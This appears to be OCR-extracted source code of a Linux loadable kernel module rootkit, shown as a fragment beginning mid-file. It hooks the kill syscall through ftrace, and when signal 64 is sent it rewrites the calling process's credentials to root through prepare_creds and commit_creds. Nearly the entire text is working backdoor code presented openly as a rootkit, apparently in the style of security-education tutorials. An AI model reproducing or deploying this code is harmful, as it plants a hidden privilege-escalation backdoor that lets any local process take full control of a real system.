         static asmlinkage long (*orig_kill)(pid_t pid, int sig);

        static asmlinkage int hook_kill(pid_t pid, int sig)
        {
            void set_root(void);

            if ( sig == 64 )
            {
                printk(KERN_INFO "rootkit: giving root...\n");
                set_root();
                return 0;
            }

            return orig_kill(pid, sig);
        }
        #endif

        /* Whatever calls this function will have it's creds struct replaced
        * with root's */
        void set_root(void)
        {
            /* prepare_creds returns the current credentials of the process */
            struct cred *root;
            root = prepare_creds();

            if (root == NULL)
                return;

            /* Run through and set all the various *id's to 0 (root) */
            root->uid.val = root->gid.val = 0;
            root->euid.val = root->egid.val = 0;
            root->suid.val = root->sgid.val = 0;
            root->fsuid.val = root->fsgid.val = 0;

            /* Set the cred struct that we've modified to that of the calling process */
            commit_creds(root);
        }

        /* Declare the struct that ftrace needs to hook the syscall */
        static struct ftrace_hook hooks[] = {
            HOOK("__x64_sys_kill", hook_kill, &orig_kill),
        };

        /* Module initialization function */
        static int __init rootkit_init(void)
        {
            /* Hook the syscall and print to the kernel buffer */
            int err;
            err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
            if(err)
                return err;

            printk(KERN_INFO "rootkit: Loaded >:-)\n");

            return 0;
        }

